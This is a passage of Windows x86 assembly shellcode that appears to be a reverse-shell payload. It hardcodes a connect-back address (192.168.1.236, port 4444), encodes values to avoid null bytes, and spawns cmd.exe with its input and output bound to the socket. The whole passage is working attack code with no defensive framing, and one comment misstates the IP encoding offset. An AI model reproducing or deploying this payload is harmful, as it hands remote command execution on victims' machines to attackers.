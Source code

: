 ```nasm
    push eax                        ; save eax in edi
    pop edi                         ; 

callConnect:
    ;set up sockaddr_in
    mov edx, 0xed02a9c1             ;the IP plus 0x11111111 so we avoid NULLs (IP=192.168.1.236)
    sub edx, 0x01010101             ;subtract from edx to obtain the real IP
    push edx                        ;push sin_addr
    push word 0x5c11                ;0x115c = (port 4444)
    xor edx, edx
    mov dl, 2
    push dx 
    mov edx, esp
    push byte 0x10
    push edx
    push edi
    call dword [esi+0xc] 

shell:
    push 0x61646d63                 ; push admc
    sub word [esp + 0x3], 0x61      ; sub a to admc = dmc
    mov ebp, esp                    ; save a pointer to the command line
    push edi                        ; our socket becomes the shells hStdError
    push edi                        ; our socket becomes the shells hStdOutput
    push edi                        ; our socket becomes the shells hStdInput
    xor edi, edi                    ; Clear edi for all the NULL's we need to push
    push byte 0x12                  ; We want to place (18 * 4) = 72 null bytes onto the stack
    pop ecx                         ; Set ECX for the loop

push_loop:
    push edi                        ; push a null dword
    loop push_loop                  ; keep looping untill we have pushed enough nulls
    mov word [esp + 0x3C], 0x0101   ; Set the STARTUPINFO Structure's dwFlags to STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
    mov byte [esp + 0x10], 0x44
    lea ecx, [esp + 0x10]  ; Set EAX as a pointer to our STARTUPINFO Structure

    ;perform the call to CreateProcessA
    push esp               ; Push the pointer to the PROCESS_INFORMATION Structure 
    push ecx               ; Push the pointer to the STARTUPINFO Structure
    push edi               ; The lpCurrentDirectory is NULL so the new process will have the same current directory as its parent
    push edi               ; The lpEnvironment is NULL so the new process will have the same enviroment as its parent
    push edi               ; We dont specify any dwCreationFlags 
    inc edi                ; Increment edi to be one
    push edi               ; Set bInheritHandles to TRUE in order to inheritable all possible handle from the parent
    dec edi                ; Decrement edi back down to zero
    push edi               ; Set lpThreadAttributes to NULL
    push edi               ; Set lpProcessAttributes to NULL
    push ebp               ; Set the lpCommandLine to point to "cmd",0
    push edi               ; Set lpApplicationName to NULL as we are using the command line param instead
    call dword [esi+0x10]

callExitProcess:
    xor  edx, edx
    push edx                ; uExitCode
    call dword [esi+0x14]   ; call ExitProcess(0)

;----------------------------------------------------------;
; Functions called                                         ;
```